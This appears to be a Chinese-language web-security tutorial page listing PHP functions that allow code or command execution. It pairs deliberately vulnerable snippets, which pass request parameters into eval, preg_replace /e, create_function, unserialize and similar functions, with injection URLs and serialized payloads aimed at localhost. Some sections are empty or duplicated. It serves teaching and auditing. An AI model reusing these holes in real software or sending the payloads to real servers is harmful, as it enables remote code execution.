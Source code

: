 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)php中可以执行代码的函数


## ![](../img/github1.png)eval()
```
demo code 1.1:
<?php
echo `dir`;
?>

eval(" phpinfo(); ");【√】
eval(" phpinfo() ");【X】
assert(" phpinfo(); ");【√】
assert(" phpinfo() ");【√】
```
## ![](../img/github2.png)assert()
```
demo code 1.1:
<?php
echo `dir`;
?>

eval(" phpinfo(); ");【√】
eval(" phpinfo() ");【X】
assert(" phpinfo(); ");【√】
assert(" phpinfo() ");【√】
```
## ![](../img/github3.png)双引号
php中双引号是可以正常解析的（单引号不可以）
举例：
```
<?php $a=1;echo "$a";?>
```
会输出1，而不是$a
## ![](../img/github4.png)preg_replace()代码注射
正则匹配代码注射
众所周知的preg_replace()函数导致的代码注射。当pattern中存在/e模式修饰符（可通过/e%00截断），即允许执行代码。这里我们分三种情况讨论下
1、preg_replace() pattern 参数注射
pattern即第一个参数的代码注射。
当magic_quotes_gpc=Off时，导致代码执行。
demo code 3.1:
```
<?php
echo $regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
访问http://127.0.0.1/preg_replace1.php?reg=%3C\/php%3E/e 即
执行phpinfo()。
```
2、 preg_replace() replacement参数注射
replacement即第二个参数的代码注射，导致代码执行。
demo code 3.2:
```
<?
preg_replace("/menzhi007/e",$_GET['h'],"jutst test");
?>
当我们提交 http://127.0.0.1/preg_replace2.php?h=phpinfo() 即
执行phpinfo()。
```
3、 preg_replace()第三个参数注射
我们通过构造subject参数执行代码。
```
提交：http://127.0.0.1/preg_replace3.php?h=[php]phpinfo()[/php]

或者 http://127.0.0.1/preg_replace3.php?h=[php]${phpinfo%28%29}[/php] 导致代码执行
```
demo code 3.3:
```
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
```
## ![](../img/github5.png)create_function()
动态函数代码执行
```
<?php
$foobar = $_GET['foobar'];
$dyn_func = create_function('$foobar', "echo $foobar;");
$dyn_func('');
?>

我们提交 http://127.0.0.1/create_function.php?foobar=system%28dir%29 执行dir命令
```
## ![](../img/github6.png)call_user_func()
```
<?php
$b="phpinfo()";
call_user_func($_GET['a'],$b);
?>
当请求1.php?a=assert的时候，则调用了assert函数，并将phpinfo作为参数传入
```
## ![](../img/github7.png)call_user_func_array()

## ![](../img/github8.png)array_map()
```
<?php
$evil_callback = $_GET['callback'];
$some_array = array(0, 1, 2, 3);
$new_array = array_map($evil_callback, $some_array);
?>

我们提交 http://127.0.0.1/array_map.php?callback=phpinfo 即执行phpinfo()。
```
## ![](../img/github9.png)unserialize()
```
unserialize（）是PHP中使用率非常高的函数。不正当使用unserialize（）容易导致安全隐患。

<?php
class Example {
var $var = '';
function __destruct() {
eval($this->var);
}
}
unserialize($_GET['saved_code']);

?>
我们提交 http://127.0.0.1/unserialize.php?saved_code=O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo%28%29;%22;} 即执行phpinfo()。
```
## ![](../img/github10.png)ob_start()
```
ob_start()函数的代码执行
<?php
$foobar = 'system';
ob_start($foobar);
echo 'dir';
ob_end_flush();
?>
```
## ![](../img/github11.png)system()
```
<?php system('whoami');?>
```
system()会直接回显打印输出，不需要echo
## ![](../img/github12.png)反引号（`）
```
<?php echo `whoami`;?>
```
实际上反引号也是调用shell_exec()
## ![](../img/github13.png)exec()

## ![](../img/github14.png)shell_exec()
## ![](../img/github15.png)passthru()
## ![](../img/github16.png)pcntl_exec()
需要额外安装，
格式：pcntl_exec(string $path [,array $args [,array $envs]])，其中：
```
$path：为程序路径，如果是perl或bash脚本，则需要在文件头加上#!bin/bash来标识路径，
$args：标识传递给$path程序的参数，
$env：是执行这个程序的环境变量
```
## ![](../img/github17.png)popen()
```
<?php popen('whoami >>D:/2.txt','r');?>
```
第一个参数是命令，第二个参数是指针文件的连接模式，有r和w代表读和写

## ![](../img/github18.png)proc_open()
popen()和proc_open()不会直接返回执行结果，而是返回一个文件指针，但是命令是已经执行了
## ![](../img/github19.png)escapeshellcmd()
## ![](../img/github20.png)file_put_contents()
## ![](../img/github21.png)fwrite()
## ![](../img/github22.png)fputs()


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
